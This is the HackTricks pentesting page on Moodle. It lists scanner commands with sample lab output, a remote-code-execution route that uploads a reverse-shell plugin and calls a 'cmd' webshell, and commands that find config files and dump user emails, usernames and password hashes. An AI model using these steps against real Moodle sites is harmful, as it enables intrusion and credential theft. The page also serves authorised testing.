 # Moodle

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking carer** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).



## Automatic Scans

### droopescan

```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:05.643539 elapsed)
```

### moodlescan

```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl
	
.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```

### CMSMap

```bash
pip3 install git+https://github.com/dionach/CMSmap.git
cmsmap http://moodle.example.com/<moodle_path>
```

### CVEs

I found that the automatic tools are pretty **useless finding vulnerabilities affecting the moodle version**. You can **check** for them in [**https://snyk.io/vuln/composer:moodle%2Fmoodle**](https://snyk.io/vuln/composer:moodle%2Fmoodle)

## **RCE**

You need to have **manager** role and you **can install plugins** inside the **"Site administration"** tab\*\*:\*\*

![](<../../.gitbook/assets/image (447).png>)

If you are manager you may still need to **activate this option**. You can see how ins the moodle privilege escalation PoC: [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Then, you can **install the following plugin** that contains the classic pentest-monkey php r**ev shell** (_before uploading it you need to decompress it, change the IP and port of the revshell and crompress it again_)

{% file src="../../.gitbook/assets/moodle-rce-plugin.zip" %}

Or you could use the plugin from [https://github.com/HoangKien1020/Moodle\_RCE](https://github.com/HoangKien1020/Moodle\_RCE) to get a regular PHP shell with the "cmd" parameter.

To access launch the malicious plugin you need to access to:

```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```

## POST

### Find database credentials

```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```

### Dump Credentials from database

```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```

<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking carer** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).



<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
